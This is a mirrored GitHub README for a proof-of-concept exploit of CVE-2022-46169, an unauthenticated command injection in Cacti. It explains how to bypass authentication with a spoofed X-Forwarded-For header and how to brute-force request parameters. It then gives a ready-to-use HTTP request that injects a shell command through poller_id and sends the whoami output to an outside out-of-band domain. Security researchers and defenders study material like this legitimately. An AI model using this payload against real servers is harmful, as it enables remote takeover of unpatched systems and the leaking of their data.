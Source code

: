 # CVE-2022-46169

CVE-2022-46169 Cacti remote_agent.php Unauthenticated Command Injection.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/0xf4n9x](https://github.com/0xf4n9x) |
| Url      | [https://github.com/0xf4n9x/CVE-2022-46169](https://github.com/0xf4n9x/CVE-2022-46169)                                               |
| Stars    | 44                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-46169

CVE-2022-46169 Cacti remote_agent.php Unauthenticated Command Injection.

## Auth Bypass

Add `X-Forwarded-For` header to bypass authentication, note that its value is not a fixed value.

![image](https://user-images.githubusercontent.com/40891670/206341900-5b4b4a59-92c5-4d19-9913-e97c1aa44180.png)

![image](https://user-images.githubusercontent.com/40891670/206342934-3e2f99e3-8ae6-406c-b28b-38bc6fd6c21c.png)

## Brute Force

Use Burp Intruder to fuzz test the values of `host_id` and `local_data_ids`.

![image](https://user-images.githubusercontent.com/40891670/206341202-253e43ec-da5b-43d1-8d3a-2e36c9041605.png)

![image](https://user-images.githubusercontent.com/40891670/206341491-aa41526b-12f8-4e97-999b-90f14a1d301b.png)

## RCE

The point of command injection is the `poller_id` parameter.

```http
GET /cacti/remote_agent.php?action=polldata&poller_id=;ping%20-c%202%20`whoami`.ccsy8s32vtc0000x5nagg8rkyboyyyyyc.oast.fun&host_id=2&local_data_ids[]=6 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; U; Linux armv6l; rv 1.8.1.5pre) Gecko/20070619 Minimo/0.020
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarded-For: 127.0.0.1


```

![image](https://user-images.githubusercontent.com/40891670/206337930-d1c2c044-b7ea-47ff-a740-9f8320594816.png)


## Reference

- https://github.com/Cacti/cacti/security/advisories/GHSA-6p93-p743-35gf



## Get the content

```
git clone https://github.com/0xf4n9x/CVE-2022-46169
cd CVE-2022-46169
```

{% embed url="https://github.com/0xf4n9x/CVE-2022-46169" %}

<figure><img src="https://avatars.githubusercontent.com/u/40891670?v=4" alt=""><figcaption><p>0xf4n9x</p></figcaption></figure>
